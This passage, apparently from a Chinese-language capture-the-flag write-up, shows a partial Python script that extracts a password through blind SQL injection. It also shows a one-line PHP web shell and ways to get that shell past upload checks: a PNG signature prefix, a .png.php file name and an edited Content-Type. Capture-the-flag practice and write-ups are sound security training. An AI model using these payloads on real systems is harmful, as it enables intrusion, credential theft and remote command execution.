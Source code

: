 ```python=
            myobj = {'username': payload, 'password': 'xx'}
            x = requests.post(url, data = myobj)
            if(x.status_code == 200):
                front = mid
                break
            else:
                end = mid-1
    print(i, chr(front))
    total_str += chr(front)
    if(front >= 128 or front < 0):
        print(f" No symble at {i}")


print("\n\n", total_str)
```

掃出來的 password: `hOTwBz4wf-fmiHBEKU6NXq-WmKOk8dyv_wchROLIzJM`

再登入即可

FLAG{un10n_bas3d_sqli}

## Image Space 0x01
meow.php
```php=
<?php system($_GET['meow']);?>
```

FLAG{upl0ad_t0_pwn!!!}

## Image Space 0x02
meow.png.php

前面亂碼的部分是 png 的 file signature
```php=
NG

<?php system($_GET['meow']);?>
```

FLAG{ext3ns10n_ch3ck_f4il3d}

## Image Space 0x03

檔案同 0x02

在上傳時 `--boundry--` 之間的 content-type 改成 `image/png`

FLAG{byp4ss_all_th3_things}

## HakkaMD
### 解法 1
先查看 phpinfo 中有關 session 的儲存位置及名稱，這題儲存位置是在 `/tmp` 下，名稱是 `PHPSESSID`
